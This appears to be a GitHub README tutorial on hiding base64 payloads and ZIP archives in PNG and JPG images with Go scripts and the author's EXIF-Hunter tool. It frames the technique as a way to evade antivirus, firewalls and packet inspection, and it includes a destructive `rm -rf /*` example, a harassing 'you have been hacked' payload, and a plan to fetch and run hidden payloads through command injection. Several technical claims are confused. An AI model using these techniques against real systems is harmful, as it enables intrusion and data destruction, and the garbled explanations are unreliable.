

# EXIF-Stegonography-and-image-injection

```

   ___            __ _                                         _           
  / _ \___       / _\ |_ ___ _ __   ___   __ _ _ __ __ _ _ __ | |__  _   _ 
 / /_\/ _ \ _____\ \| __/ _ \ '_ \ / _ \ / _` | '__/ _` | '_ \| '_ \| | | |
/ /_\\ (_) |_____|\ \ ||  __/ | | | (_) | (_| | | | (_| | |_) | | | | |_| |
\____/\___/      \__/\__\___|_| |_|\___/ \__, |_|  \__,_| .__/|_| |_|\__, |
                                         |___/          |_|          |___/
```

Alot of people for a while now in my server and on my pages like the fortran page have been asking me to do a lesson segment on stegonography and how it in general works around, and how you can use scripts like EXIFtool to imbed BASE64 encoded payloads into images, filter the certificate and have the payload execute on someone elses machine 

What will this page / lesson teach?

> How stenography works
 
> Stenography with JPG/JPEG/PNG image formats

> How to hide files / ZIP files inside of JPEG / JPG formats with go 

> How to base64 encode a paylaod 

> How to hide a base64 encoded payload into a JPG file 

> How to filter out and execute the payload in the image from a post forum

> How to inject data into images with EXIF-Hunter

> How to find the binary offsets and chunk types using EXIF hunter 

> How to find chunk offsets in PNG images by yourself

> How to Geo locate and understand geo location tags in JPG/JPEG image formats 

> How to extract metadata out of image files using EXIFTOOL

> How to EXTRACT ZIP files using EXIF-Hunter 

> How to build your own GO script to extract ZIP files in JPG/JPEG image formats

Wow alot right? thats alright it should not take that long, by the end of this reading you should be able to understand how stenography works, and how to build your own scripts in go to automate the skills you learned here, just like the fortran95 lesson on math see this link here -> https://github.com/ArkAngeL43/fortran-notes to look at that lesson which teaches applying common mathematics to fortran95 in the 2003 standard

# Starting out with the basics 

> What is stenography? 

Stenography is a process hackers or in some cases organizations use to hide data inside of images, this can be something as small as an encrypted or base64 encoded message to someone, or something as big as a data leak and ZIP file which can execute remote code or holds very very important data. in most cases hackers or digital forensics experts will use stenography to encode and inject malicous payloads like the rubber ducky payload into images to gain remote access to a computer 

> How can this aid hackers in attacks and how is this better than normal malware?

This can be used to aid hackers when it comes to malware, because there are ways to encode and hide the data and alot more options rather than hiding an exe. this next part will be extremely hard to understand so bare with me if you dont get it its fine, contact me and i can explain it a bit better XD. 

Say a hacker wants to hack into a corperation, they have no current vulnerabilities that the hacker knows about or developers, this time he wants to say delete the server's operating system. the last option the hacker has is to send a malicous file which he can choose EXE or JPG, which one would he go with and why? say he goes with the EXE and sends it over to the admin, the admin runs it and it is seen as a malicous file and is terminated by the AVP ( Anti Virus Program ) and his attack or chance is over. Now say he goes with the malware infested JPG file, the malware in this case is a base64 encoded payload which is seen as `sudo rm -rf /*` now this will work on the server because the admin has root privleges, when the image is sent and opened by the server anmd filtered out the command is executed, which now just deleted essentially the entire operating system of the server.

While it seems that easy it is a dreadful long process, we wont be necessarily doing that today as that requires making your own programs and payloads, but if you could not tell the difference its essentailly social engineering, most people wont click a random exe file from a random person they dont know or is not verified ( if they are smart ) but almost 99% of people would download and run an image on their computers. Image formats are not only reliable because of the social egineering behind them but also they can easily go undetected as malicous by  Anti Virus Software.

> The basics of PNG images 

On this repo i will be teaching you how to use or make your own tools to inject data into JPG formats, but something to understand first will be the basics of stenography, to do this i will be giving you a basic understanding of how PNG files can be injected and how you can manually as well as using my own tools to find the chunk types, and offsets in PNG images.


# Understanding, injecting, and finding chunks in png image formats 

> Locating offsets, and chunks

There is a long process of understanding to stenography with images, its not super super long but it can go deep especially given there are so much different forms of stenography along with image formats. To start this topic off we will be talking about the metadata / recon part of stenography which is quite fairly easy, all you need is a PNG image, and a hex dumping utility. Hex dumping is amazing for this kind of stuff because it allows you to find certian data and filter it out, as well as finding chunk type offsets.

**Building your own command line interface hex dumping utility**

for this project and term we will be using a set of my own tools, tools like EXIF tool, and our own set we make out of a programming language called go, i wont go into the basics about go, or how it works since its not needed 

**script**

```go
package main

import (  
    "bufio"
    "encoding/hex"
    "fmt"
    "log"
    "os"
    "io"
)

func main() {
    filename := os.Args[1]  
    f, err := os.Open(filename)
    if err != nil {
        log.Fatal(err)
    }
    defer f.Close()
    reader := bufio.NewReader(f)
    buf := make([]byte, 256)
    for {
        _, err := reader.Read(buf)
        if err != nil {
            if err != io.EOF {
                fmt.Println(err)
            }
            break
        }
        fmt.Printf("%s", hex.Dump(buf))
    }
}
```

this script is easy to work with, simple save the file as main.go, and run it as go run main.go yourimage.png

for this example i will be using the image below 

**image**


we will run the script as follows *go run main.go battlecat.png* when we run the tool we will get the output of a large hex and example is seen down below at the very top of the hex dump.

```
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 02 e5 00 00 02 79  08 06 00 00 00 09 9e 4e  |.......y.......N|
00000020  c6 00 00 80 00 49 44 41  54 78 da ec bd 07 58 54  |.....IDATx....XT|
00000030  59 b6 b7 7f a7 7b 42 cf  f4 cc b4 6d 8e 6d 77 db  |Y....{B....m.mw.|
00000040  39 99 30 e7 4c ce 59 51  01 15 03 8a a2 e4 9c 93  |9.0.L.YQ........|
00000050  64 c9 39 57 26 09 88 59  40 25 a8 08 82 44 c1 d4  |d.9W&..Y@%...D..|
00000060  e6 88 28 50 55 e7 fc be  7d 0e 38 b7 ef fc e7 bb  |..(PU...}.8.....|
00000070  77 fe f7 de 99 e9 99 6f  bf cf b3 9e aa 3a 75 ce  |w......o.....:u.|
00000080  29 0a a5 f6 7b 56 ad bd  f6 bf fd 1b 85 42 a1 50  |)...{V.......B.P|
00000090  28 14 0a 85 42 a1 50 28  14 ca 3f 02 00 bf 20 f1  |(...B.P(..?... .|
000000a0  ce 5f 88 5f bc 8d 9f ec  f7 e7 f1 76 df 77 ff 2c  |._._.......v.w.,|
000000b0  7e 41 7f b3 14 0a 85 42  a1 50 28 14 ca 5f 27 e4  |~A.....B.P(.._'.|
```

Hmmm what do you see? it should be easy to see. .PNG would be our first clue, so in order to veryify the image is a PNG image it is read in what is called the header of the file, the header of a file is the very top / start of the file. this is also why you can not just change a png extension to jpg, its simply becuase the image format type is embedded into the binary of the file. now when we look at the very first line which is looked at as the first 8 bytes mine is 

*89 50 4e 47 0d 0a 1a 0a*

This is how we identify the header of the file

Now the second, third and the fourth values are also in a sense the same, once conerted to ascii they literally read PNG, Now the header sequence in this file consists of two types of arbitrary tailing bytes which canist of both DOS and UNIX carriage return line feed (CRLF) ( Often 00000050  39 fb bc 9c 92 47 d4 4d  00 

refered to as the files magic bytes )

**chunk sequence**

If you look at the hex dump further along you can see some weird tags like IDAT, and IHDR which are tags that define the type and size of the image along with the header, ( also why they are set at the header of the dump ), 

```
00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 02 e5 00 00 02 79  08 06 00 00 00 09 9e 4e  |.......y.......N|
```

IHDR is another tag to look at, in order for tools to read and convert the binary data of the image to meta data they need to look for tags like the IHDR tags which define the images metadata, what we will mosly be looking out for as a location to inject will be known as the IEND chunk, the IEND chunk is the images or PNG's EOF ( End of file ), before i go on might i say along with this technique of image injection there are many many many MANY other techniques to inject images with payloads, in this section we will focus on a method of writing data to a certian byte offset ( The IEND offset ), The reason we are going to inject our data into the IEND chunk type is because images like PNG image formats define chunks and classifies them as critical or ancillary, the reason they are classified this way is to define what data is important in the image and whaty is not, the IEND chunk is an ideal injection point because it is not critical to have inside of the image, while it is used alot and needed needed for the image to run it is not as critical as much as the metadata of the image is.

to locate this offset lets scroll all the way down to the bottom of the hex dump 

```
00000050  39 fb bc 9c 92 47 d4 4d  00 00 00 00 49 45 4e 44  |9....G.M....IEND|
00000060  ae 42 60 82 e6 4d 9f ec  fb d3 c7 9f ae 6d 6e de  |.B`..M.......mn.|
00000070  39 eb c8 91 03 b9 bb 77  ef 96 6e dd ba 35 7c fb  |9......w..n..5|.|
00000080  f6 ed 21 df ee fd 36 00  1f a7 b3 4f 35 ba e3 a5  |..!...6....O5...|
00000090  4b 97 fc 8e 1e 3d 1a 74  e8 d0 a1 30 32 f6 ef df  |K....=.t...02...|
000000a0  1f ba 7b eb ee 60 fc 9e  87 83 bc 77 c7 8e 1d a1  |..{..`.....w....|
000000b0  7b f7 ee 0d 21 af 25 ef  f1 b5 c7 f5 b9 06 46 c8  |{...!.%.......F.|
000000c0  19 18 18 18 18 18 18 18  18 fe ab 49 bb af bd df  |...........I....|
000000d0  e3 70 03 42 6f 5c b9 a1  3b 77 ee 5c da 0f 67 ce  |.p.Bo\..;w.\..g.|
000000e0  14 9e 3e 7d 7a ec 77 df  7d 5f 71 fa f4 d9 d2 b3  |..>}z.w.}_q.....|
000000f0  67 cf e5 60 e2 6c be 79  f3 66 b8 8f 6d 60 87 ff  |g..`.l.y.f..m`..|
```

im sure by now you spotted the IEND chunk for us this chunk is located at offset `0x85258` if you can not find the offset on your own no need to worry, i have a decent tool for you, so in my github i have a tool called EXIF hunter, which is a tool to inject JPEG, JPG, PNG image formats and find metadata on the image, when you install this tool 

`git clone https://github.com/ArkAngeL43/EXIF-Hunter-V1.0.git ; cd EXIF-Hunter-V1.0 ; chmod +x ./install.sh ; ./install.sh`

then you can run the command as follows 

`go run main.go -i your_image.png --meta`

which once run you will get a large table and be asked `Would you like to locate just the IEND chunk? and injectable offset <y/n > ` once you say yes or y you will get 

```
 +---------------+-------------------------------+--------------------------------------+
|    Chunk Type |    Location Injectable OFFSET |    Injectable OFFSET HEX Translation |
+===============+===============================+======================================+
|          IEND |                        545368 |                              0x85258 |
+---------------+-------------------------------+--------------------------------------+
```

now that we have all the offset and enough knowlege to grab the offset we can now inject our data into the image.

> Injecting data into PNG images

Im going to start this section off by saying sorry XD, the last section was very very disorganized so to coninue into this one im going to explain some things i missed, the most important was EXIF-Hunter, if you dont know EXIF-Hunter is a image injection tool, payload encoder, meta data miner, geo location, and ZIP extraction utility for image formats of JPG/JPEG and PNG. This tool can aid in terms or lessons like this by helping you extract the meta data like chunks, chunk offsets, encoding payloads, and retrieving ZIP files embedded into images. 

Now lets start off this section properly instead of sub starting it by explaining what exactly is image injection, and why is this specifcally built around certian image formats. So lets put this into an example, say you wanted to use EXIF-Hunter to inject payloads into a image that is like JPG, and that data is a command or malicous code block. Well you will simply get the error `this is not a valid PNG image format` that is because the script is built specifically to seak out certian bytes that specify to only png image formats. remmeber when i was saying that each image has its own way of representing data and that each image has its own form of magic bytes? EXIF hunter was built specifically to seak the data inside of PNG image formats only and in cases like the code below 

```go

func (mc *MetaChunk) validate(b *bytes.Reader) {
	var header Header

	if err := binary.Read(b, binary.BigEndian, &header.Header); err != nil {
		log.Fatal(err)
	}

	bArr := make([]byte, 8)
	binary.BigEndian.PutUint64(bArr, header.Header)

	if string(bArr[1:4]) != "PNG" {
		log.Fatal("Provided file is not a valid PNG format")
	} else {
		fmt.Println(RED, "[INFO] ", BLU, formatDate, RED, " -> ", bArr[1:4], " Came back as a VALID HEADER")
	}
}
```

it is built to read specific data in image formats, as seen in `bArr[1:4]` which seeks out the header of the PNG dump, when it finds it it can now verify that the image is a PNG image, and that well we can move forward with the image injection, and that data can properly be processed and set into a certian offset in the image.

In order to inject our PNG we need the original image, the offset, the chunk type, and the payload. lets start by making our data to inject, in order for us to read it and for it to be properly injected fully we need to base64 encode it, so to do that we will use the following command 

`printf 'echo "hello world"' | base64 | tr -d '\n'`

when we decode the payload you get `ZWNobyAiaGVsbG8gd29ybGQi` this is our payload to inject, for this side i will be using EXIF hunter you can use the tool of your choice since this section is rather just about injecting PNG's instead of injection JPG images with ZIP files or malicous code. 

if you use EXIF hunter you use the following command to inject 

`go run main.go -i battlecat.png -o injected.png --inject --offset 0x85258 --payload "ZWNobyAiaGVsbG8gd29ybGQi"` 

 -i specifies the input image 
 -o specified the output image
 --inject starts injection 
 --offset is the location we will inject 
 --payload is out payload we will inject
 
 once we enter the command and everything is correct we will get the following output 
 
 2 giant white EXIF tables ( Ignore that )
 
 and two messages which thrown together say the following 
 
 ```
 [INFO]   07:21:44   -> File Exists 	 battlecat.png
 [INFO]   07:21:44   -> Opening file   	 battlecat.png
 [INFO]   07:21:44   ->  battlecat.png 	 Successfully opened
 [INFO]   07:21:44   ->  [80 78 71]  Came back as a VALID HEADER
 [INFO]   07:21:44   -> Payload Original -> [90 87 78 111 98 121 65 105 97 71 86 115 98 71 56 103 100 50 57 121 98 71 81 105]
 [INFO]   07:21:44   -> Payload          -> [90 87 78 111 98 121 65 105 97 71 86 115 98 71 56 103 100 50 57 121 98 71 81 105]
 [INFO]   07:21:44   -> Success injecting, created file    	 injected.png
 [INFO]   07:21:44   -> Reading and dumping new file
 ```
 
 we get general information that the file exists, it opening the file, if it failed or not, if the header came back valid as PNG, payload byte code, and if it was successful dumping 
 
 when we use the other option in EXIF hunter to now check to see if our data is injected we look at the end and see 
 
 ```
 00000050  39 fb bc 9c 92 47 d4 4d  00 00 00 18 72 4e 44 6d  |9....G.M....rNDm|
00000060  5a 57 4e 6f 62 79 41 69  61 47 56 73 62 47 38 67  |ZWNobyAiaGVsbG8g|
00000070  64 32 39 79 62 47 51 69  2b c1 67 2d 00 00 00 00  |d29ybGQi+.g-....|
00000080  49 45 4e 44 ae 42 60 82  1f a7 b3 4f 35 ba e3 a5  |IEND.B`....O5...|
00000090  4b 97 fc 8e 1e 3d 1a 74  e8 d0 a1 30 32 f6 ef df  |K....=.t...02...|
000000a0  1f ba 7b eb ee 60 fc 9e  87 83 bc 77 c7 8e 1d a1  |..{..`.....w....|
000000b0  7b f7 ee 0d 21 af 25 ef  f1 b5 c7 f5 b9 06 46 c8  |{...!.%.......F.|
000000c0  19 18 18 18 18 18 18 18  18 fe ab 49 bb af bd df  |...........I....|
000000d0  e3 70 03 42 6f 5c b9 a1  3b 77 ee 5c da 0f 67 ce  |.p.Bo\..;w.\..g.|
000000e0  14 9e 3e 7d 7a ec 77 df  7d 5f 71 fa f4 d9 d2 b3  |..>}z.w.}_q.....|
000000f0  67 cf e5 60 e2 6c be 79  f3 66 b8 8f 6d 60 87 ff  |g..`.l.y.f..m`..|
 ```
 
 if you look at hex and and hash table the meta data we can see our offset has now changed 
 
 ```
+------------+----------+-----------------+---------------------+-----------------+
|     Offset |    Chunk |    Chunk Number |    Chunk Importance |    Chunk Length |
+============+==========+=================+=====================+=================+
|    0x8527c |     IEND |              20 |            Critical |               0 |
+------------+----------+-----------------+---------------------+-----------------+
 ```
 
 and that our encoded string is now in there
 
 ```
 00000060  5a 57 4e 6f 62 79 41 69  61 47 56 73 62 47 38 67  |ZWNobyAiaGVsbG8g|
 00000070  64 32 39 79 62 47 51 69  2b c1 67 2d 00 00 00 00  |d29ybGQi+.g-....|
 00000080  49 45 4e 44 ae 42 60 82  1f a7 b3 4f 35 ba e3 a5  |IEND.B`....O5...|
 ```
 
 
 Now that we can easily inject images, and understand the basics of stenography lets move to the more advanced side
 
 # injecting, understanding, and extracting data out of JPEG/JPG image formats 
 
 I believe i am still not through the basics yet so before we get to the final part of this lesson i will be teaching you how to look for and extract ZIP files, and inject ZIP files into JPG image formats, this can be a bit easier to understand since this is just hiding data into the image with the OS, and extracting data by finding the very specific header of the type of file. Now when it comes to JPEG lets all admit to a person they are the most dangerous images to have, this is dangerous because of a few small things im going to list off 
 
 > JPEG/JPG images have whats called GEOlocation tags inside of them, which can tell a hacker or stalker the exact location of where the photo was taken based off of its cordinants, ( i made a function in EXIF-Tool to trace the location and write a map to it which we will discuss later )

> They are easy to inject data into and have people execute payloads, with the way JPEG certificates work, it makes it easy for someone to install a backdoor or virus or malicous payload into the image and execute it upon filtering out that data in the certificate

> They are easy to manipulate into viruses 

> They give out MUCH more information on the device used in that image and the person who took the photo 

> They give out a stronger structure for hackers to easily manipulate into trackers which can act as links upon opening the image.


Why would this be better than sending or making someone execute malicous EXE files or ELF files if they are on linux.

1: WAF Evasion, `With commercial software like Fortinet's FortiGate firewall, each packet can be thoroughly dissected for analysis. These kinds of firewalls make it difficult for an attacker using simple TCP connections established with Netcat to persist on the compromised device or covertly map the network.`, the use of images along with tools to inject and hide the payloads in the images,  make it difficult for system administration to montior traffic and classify it as malicous

2: Packet sniffing evasion: In most corperate enviroments operating systems or servers are configured to use custom certificates which make it quite possible for a network admin to decrypt the data coming in and out from devices on the current network. 

3: AV Evasion: Anti virus systems are built to read the data of the binary, executable, or file, if it seaks out something dangerous such as a form of shellcode in a binary or ascii dump then it will trigger which on systems like windows wont continue downloading the data until the user presses or accepts the possibility to hit ok and have the program continue. With certian *Stagers* it gives you're program more protection to bypass AV software. 

Now to start off with this whole zip file injection as said above i am going to teach you the simple part of injecting data like ZIP files and extracting ZIP files from JPG/JPEG images with the power of go to really get you familiar with hiding data in images 


> Locating and extracting ZIP files from JPG images

This will be quite simple to understand because this process through the line of code is quite easy and quite simple to understand, below this text is an example of a script written by an anonomoys poster in my old old old discord server which is not alive, which prooves the concept that you can search for ZIP files in images via hex code and extract them 

```go
ackage main

import (
	"bufio"
	"bytes"
	"fmt"
	"log"
	"os"
	"os/exec"
	"strings"
	"syscall"
)

func usage(name string) {
	fmt.Fprintf(os.Stdout, "Usage:\t%v file.jpg\n", name)
	fmt.Printf("Detecting a ZIP archive in a JPEG image\n")
	fmt.Printf("For unarchiving you need 7z\n")
	os.Exit(1)
}

func main() {
	// usage
	if len(os.Args) == 1 || os.Args[1] == "-h" {
		usage(os.Args[0])
	}

	fileJpg := os.Args[1]

	if !strings.HasSuffix(fileJpg, "jpg") {
		usage(os.Args[0])
	}

	// Zip signature is "\x50\x4b\x03\x04"
	file, err := os.Open(fileJpg)
	if err != nil {
		log.Fatal(err)
	}
	bufferedReader := bufio.NewReader(file)
	fileStat, _ := file.Stat()
	// 0 is being cast to an int64 to force i to be initialized as
	// int64 because filestat.Size() returns an int64 and must be
	// compared against the same type
	for i := int64(0); i < fileStat.Size(); i++ {
		myByte, err := bufferedReader.ReadByte()
		if err != nil {
			log.Fatal(err)
		}
		if myByte == '\x50' {
			// First byte match. Check the next 3 bytes
			byteSlice := make([]byte, 3)
			// Get bytes without advancing pointer with Peek
			byteSlice, err = bufferedReader.Peek(3)
			if err != nil {
				log.Fatal(err)
			}
			if bytes.Equal(byteSlice, []byte{'\x4b', '\x03', '\x04'}) {
				log.Printf("Found zip signature at byte %d.", i)
			}
		}
	}

	// Unzip it
	for {
		var unz string
		fmt.Print("Unzip it? (Y/N) > ")
		_, err := fmt.Scanf("%s", &unz)
		if err != nil {
			fmt.Println("Wrong data")
			continue
		}
		switch {
		case unz == "Y":
			fmt.Println("OK")

			// where 7z
			binary, err := exec.LookPath("/usr/bin/7z")
			if err != nil {
				log.Fatalln(err)
			}

			// args
			args := []string{"7z", "e", os.Args[1]}

			env := os.Environ()

			err = syscall.Exec(binary, args, env)
			if err != nil {
				log.Fatalln(err)
			}

		case unz == "N":
			fmt.Println("OK")
			fmt.Println("Exit")
			os.Exit(0)
		default:
			fmt.Println("Wrong data")
			continue
		}
	}

}
```

this is 103 lines of code its not too much to chop down when you have the main core, so let me explain this a bit better for you, the top function is the main function which takes image formats as the arguments or image paths anyway, then it checks if the argument containes JPG and if it does it continues, after that in the notes it says 

`Zip signature is "\x50\x4b\x03\x04"` remmeber how i talked about how you can verify an image is an image by reading its header bytes? ZIP files are structured the same way with headers, a certian part of their files the header declares that the ZIP is well a ZIP file, lets look at the main function of this script is 

```go
	for i := int64(0); i < fileStat.Size(); i++ {
		myByte, err := bufferedReader.ReadByte()
		if err != nil {
			log.Fatal(err)
		}
		if myByte == '\x50' {
			// First byte match. Check the next 3 bytes
			byteSlice := make([]byte, 3)
			// Get bytes without advancing pointer with Peek
			byteSlice, err = bufferedReader.Peek(3)
			if err != nil {
				log.Fatal(err)
			}
			if bytes.Equal(byteSlice, []byte{'\x4b', '\x03', '\x04'}) {
				log.Printf("Found zip signature at byte %d.", i)
			}
		}
	}
```

this is the one we want to pay attention to, when we look at the script it uses golangs pointers and standard filestat to read the byte of the file, if the byte is equal to \x50 then there is a possibility of it being a zip file, but just to be sure it reads for the next 3 bytes after that to verify this is a zip header or ZIP file, hence the 

```go
if bytes.Equal(byteSlice, []byte{'\x4b', '\x03', '\x04'}) {
				log.Printf("Found zip signature at byte %d.", i)
}
```

if the byte is equal to the slice and the byte array then it returns as it follows, once done it will ask the user if it wants to use 7z to unpack and unzip the file archive

im going to walk through the input and output for this script, so in the filepath zip_utils you will find two things, a file passwords.txt and a image names image.jpg, this will be what i will be using for this input, the image will be image.jpg and the file we will be extracting will be passwords.txt, the image below is the one i will be using 


when we run the script we will be running it as follows 

`go run main.go stego_image.jpg`

we will get the following output 

`2022/02/27 08:20:43 Found zip signature at byte 135275.`

well since we found the byte, lets see if we can hex dump it to pre see the files inside of that ZIP file 

```
00000080  00 0c 00 00 00 0d 00 00  00 70 61 73 73 77 6f 72  |.........passwor|
00000090  64 73 2e 74 78 74 61 6c  6f 68 61 62 61 62 79 31  |ds.txtalohababy1|
000000a0  32 33 50 4b 01 02 3f 03  0a 03 00 00 00 00 b2 84  |23PK..?.........|
000000b0  55 4d 5b ce b7 14 0c 00  00 00 0c 00 00 00 0d 00  |UM[.............|
000000c0  24 00 00 00 00 00 00 00  20 80 b4 81 00 00 00 00  |$....... .......|
000000d0  70 61 73 73 77 6f 72 64  73 2e 74 78 74 0a 00 20  |passwords.txt.. |
000000e0  00 00 00 00 00 01 00 18  00 00 d0 27 3a 43 69 d4  |...........':Ci.|
000000f0  01 00 ef 31 34 43 69 d4  01 00 d0 27 3a 43 69 d4  |...14Ci....':Ci.|
00000000  01 50 4b 05 06 00 00 00  00 01 00 01 00 5f 00 00  |.PK.........._..|
00000010  00 37 00 00 00 00 00 74  09 29 86 9f 43 aa 40 cb  |.7.....t.)..C.@.|
00000020  3f a0 d4 78 17 59 ab 15  fc 48 a9 33 d7 e8 69 33  |?..x.Y...H.3..i3|
00000030  cc 8e 09 59 fd 8b d4 17  37 37 26 dd 87 cd 52 07  |...Y....77&...R.|
00000040  42 57 8c 40 f7 02 f1 60  19 ea 3c 90 61 bc b0 52  |BW.@...`..<.a..R|
00000050  33 e5 bc 46 49 4f 17 11  ed 47 58 6f 47 7e c5 1e  |3..FIO...GXoG~..|
00000060  dd a7 aa 9b 3d e3 9a 3d  7f ff d9 50 4b 03 04 0a  |....=..=...PK...|
00000070  03 00 00 00 00 b2 84 55  4d 5b ce b7 14 0c 00 00  |.......UM[......|
00000080  00 0c 00 00 00 0d 00 00  00 70 61 73 73 77 6f 72  |.........passwor|
00000090  64 73 2e 74 78 74 61 6c  6f 68 61 62 61 62 79 31  |ds.txtalohababy1|
000000a0  32 33 50 4b 01 02 3f 03  0a 03 00 00 00 00 b2 84  |23PK..?.........|
000000b0  55 4d 5b ce b7 14 0c 00  00 00 0c 00 00 00 0d 00  |UM[.............|
000000c0  24 00 00 00 00 00 00 00  20 80 b4 81 00 00 00 00  |$....... .......|
000000d0  70 61 73 73 77 6f 72 64  73 2e 74 78 74 0a 00 20  |passwords.txt.. |
000000e0  00 00 00 00 00 01 00 18  00 00 d0 27 3a 43 69 d4  |...........':Ci.|
000000f0  01 00 ef 31 34 43 69 d4  01 00 d0 27 3a 43 69 d4  |...14Ci....':Ci.|
```

when we hex dump it and track to the very very VERY end of the long hex dump we can see the `passwords.txt` file, and some other weird symbols, in the case we do not want to extract it we can always see what is in the file to see what is in there, this can help more or less on the blue team to see what is in there in case if that zip file becomes a zip bomb and is like an implant to extract it 

> Injecting ZIP files 

Now that we understand the basics of how the file is found and the basics of bytes in stenography, i will now teach you the basics of injecting a file or ZIP file into a JPG file

to do this we will need another script like the following

```
package main

import (
	"fmt"
	"io"
	"log"
	"os"
	"strings"
)

func main() {
	// usage
	if len(os.Args) == 1 || os.Args[1] == "-h" {
		fmt.Fprintf(os.Stdout, "Usage:\t%v file.jpg file.zip\n", os.Args[0])
		fmt.Printf("Create a hidden archive into new jpg\n")
		os.Exit(1)
	}

	fileJpg := os.Args[1]
	fileZip := os.Args[2]

	if !strings.HasSuffix(fileJpg, "jpg") || !strings.HasSuffix(fileZip, "zip") {
		fmt.Fprintf(os.Stdout, "Usage:\t%v file.jpg file.zip\n", os.Args[0])
		fmt.Printf("Create a hidden archive into new jpg\n")
		os.Exit(1)
	}

	// Open original file
	firstFile, err := os.Open(fileJpg)
	if err != nil {
		log.Fatal(err)
	}
	defer firstFile.Close()
	// Second file
	secondFile, err := os.Open(fileZip)
	if err != nil {
		log.Fatal(err)
	}
	defer secondFile.Close()
	newFile, err := os.Create("hidden_data_in_image.jpg")
	if err != nil {
		log.Fatal(err)
	}
	defer newFile.Close()
	_, err = io.Copy(newFile, firstFile)
	if err != nil {
		log.Fatal(err)
	}
	_, err = io.Copy(newFile, secondFile)
	if err != nil {
		log.Fatal(err)
	}
	log.Println("Finished injection")
}
```

Now in this case this is actually more copying or hiding an archive in a image or behind an image more than injection but same concept, so in the simplist form this code takes two os argument vec's, one to input the file you want to implant the file into and the zip file, for this case i will be simply using the same image as the one we used to find the zip file, when we run the program we get a silent output, we have it first open and read the file, then open the ZIP file to make sure both the image and ZIP file are all there and real. then you create the output image file which is our choice to name ( In EXIF hunter i added the option to change the output name with the -o tag ) then we can use Golangs base IOUTIL lib to merge the files together basically melting them and mixing the data together which is why when you hex dump it it becomes very very very wacky to look at and there isnt as organized of an output like we did see in the png image fortmat.

if you really wanted to test to see if the zip file was truly injected you can take the ZIP scan file and run your new output file through the scanner which if all is okay with no error or warning output then the file should be in there 

# Getting to the good part 

I know i did not do the best in explaining exactly how this works but i hope it helped a little, this is the part where people became curious, while the common concept of stenography is an easy concept to grasp on the tip of the iceburg it gets a little bias the deeper you go, alot of people claim as i have seen before and heard that you can not execute remote code without exploiting the program that opens the image or you need to inject raw code into the image which both are all very very wrong, we can proof this concept through a simple POC kinda like how EXIF-Hunter is the proof of concept of stenography and using it to both defend your systems and comprimise other peoples or ofc get image data.

for this we will not be using my own tools since EXIF hunter is still in dveelopment and has some bugs as well as its better to use other tools like EXIF-Tool to make this process a fuck ton easier 

This time we will be injecting a base64 encoded payload, uploading it to a web forum which does not execute the process of EXIF data sanitization, and executing the code using curl from the command line to filter out the data in the JPEG certificate 

Warnings: ---------------------------------------------

This lesson was not meant to tell you how to comprimise systems for your own good but understand how you can use images to attack systems to possibly come up with your own platforms to help aid upcoming pentesters. Also, there is something cool i just thought you can do with this, when we further talk about making the curl request and filtering out the image certificate, if you truly wanted to get into a server, this can be useful for remote code injection or os command injection,( its a concept i have not tested myself and probobly will soon and proof that its quite real )

`so my concept is, if you find a server vulnerable to OS command injection then you can inject a CURL command to make a request to the image forum and filter out the malicous code in the image on the server side `

anyway lets get into this, so lets get real, im going to make a command which will make a noise and alert the user you have been hacked 

this is the command 

`zenity --notification --text="WARNING: YOU HAVE BEEN HACKED :D DIE DIE DIE DIE DIE" --title="TIME IS UP FUCKERRRR" ; echo -en "\007"`

this is a simple command which will call the pre install utility zenity to spawn a notification telling the user they have been haked, at the end use the echo -en code to echo a bell hexidecimal the `\007` is an equivelant to using `\b` or the `bell tag` i think its the a but either way it makes a bell sound kinda more like a pop 

ANYWAY 

we need to base 64 encode this so lets do so 

`printf 'zenity --notification --text="WARNING: YOU HAVE BEEN HACKED :D DIE DIE DIE DIE DIE" --title="TIME IS UP FUCKERRRR" ; echo -en "\007"' | base64 | tr -d '\n'`

once done our base 64 encoded string is 

`emVuaXR5IC0tbm90aWZpY2F0aW9uIC0tdGV4dD0iV0FSTklORzogWU9VIEhBVkUgQkVFTiBIQUNLRUQgOkQgRElFIERJRSBESUUgRElFIERJRSIgLS10aXRsZT0iVElNRSBJUyBVUCBGVUNLRVJSUlIiIDsgZWNobyAtZW4gIgci`

now this image injection is simple but lets go through the EXIF data that we get, the image i will be using is the one below 


when we use `exiftool` to dump the data we get the following output 

`(DISCLAIMER: Since i knew perl to a good amount i decided for the EXIF part of EXIF-Hunter i would use the simple perl lib EXIFTOOL which was writtin in perl and for perl, this is the one installed in most linux systems, the table and data output is not standard by the tool as the table seen below in the example output was using EXIF-Hunter's perl script to wrap a ASCII table around the data)`


```
┌─────────────╥────────────────────────┬────────────────────────────────────────────────────────┐
│ Data Number ║ Data                   │After DATA EXIF                                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ExposureTime (2)        │                          1/424                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AFPoint                 │                 Auto AF point selection                │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║YCbCrSubSampling        │                    YCbCr4:4:4 (1 1)                    │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║OwnerName               │                     Vlad Georgescu                     │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
